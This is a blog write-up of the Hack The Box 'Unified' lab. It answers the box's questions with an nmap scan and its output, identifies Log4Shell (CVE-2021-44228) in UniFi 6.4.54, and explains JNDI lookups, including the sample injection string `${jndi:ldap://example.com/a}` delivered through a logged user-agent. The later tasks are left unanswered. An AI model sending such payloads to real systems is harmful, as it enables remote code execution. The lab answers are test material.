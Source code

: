 ```yaml
---
title: 'Unified - HTB Starting Point Tier 2'
description: 'Writeup for Unified box'
pubDate: 'Feb 8 2025'
heroImage: '/blog-placeholder-1.jpg'
---
```



## Unified
*MongoDB, Java, Code Injection*

The final Starting Point on the free tier! This is a momentous occasion. 

**Task 1**  
Which are the first four open ports?  

```bash
nmap -sC $TARGET --min-rate=2000 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 20:16 AEDT
Nmap scan report for 10.129.96.149
Host is up (0.34s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
8443/tcp open  https-alt
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage

Nmap done: 1 IP address (1 host up) scanned in 18.31 seconds
```

22,6789,8080,8443

**Task 2**  
What is the title of the software that is running running on port 8443?  

Unifi Network

**Task 3**  
What is the version of the software that is running?  

Navigating to the web app, we see `6.4.54`


**Task 4**  
What is the CVE for the identified vulnerability?  

A quick search of "Unifi Network 6.4.54 cve" leads us to a github repo to exploit the log4j vulnerability `CVE-2021-44228`


**Task 5**  
What protocol does JNDI leverage in the injection?  

LDAP.

This [Cloudflare blog](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/) specifies that LDAP was the primary focus of the CVE. FRom this blog, it looks like the JNDI interface could load up an arbitrary Java object via LDAP, e.g. `ldap://localhost:389/0=JNDITutorial` finds the JNDITutorial object from the local LDAP server and parses the object to read attributes. If you can control the LDAP URL, you can load up arbitrary objects in a Java runtime environment, and thus is the focus of this vulnerability.

Log4j contained a syntax that allowed the evaluation of a value to place into logs. It took the format `${prefix:name}`. `prefix` would specify the lookup to use, and the `name` would be the target of evaluation. e.g. `${java:version}` to retrieve the java version. Thus if an attacker could get log4j to write `${jndi:ldap://example.com/a}`, then log4j will try and resolve the object from that ldap server - this was added in Log4J2-313. A user-agent is a common field that gets logged.


**Task 6**  
What tool do we use to intercept the traffic, indicating the attack was successful?  

`tcpdump`


**Task 7**  
What port do we need to inspect intercepted traffic for?  

`389` as the LDAP port


**Task 8**  
What port is the MongoDB service running on?  

Default port is 27017


**Task 9**  
What is the default database name for UniFi applications?  

It seems that we want machine access at this point. I tried to capture the traffic in tcpdump and wireshark, but since it's using TLS the data is encrypted. I could spend time setting that up, or the writeup just suggests to use a proxy like burpsuite. I think I will try that next time and examine the login request.


**Task 10**  
What is the function we use to enumerate users within the database in MongoDB?  


**Task 11**  
What is the function we use to update users within the database in MongoDB?  


**Task 12**  
What is the password for the root user?  


**Task 13**  
Submit user flag  


**Task 14**  
Submit root flag  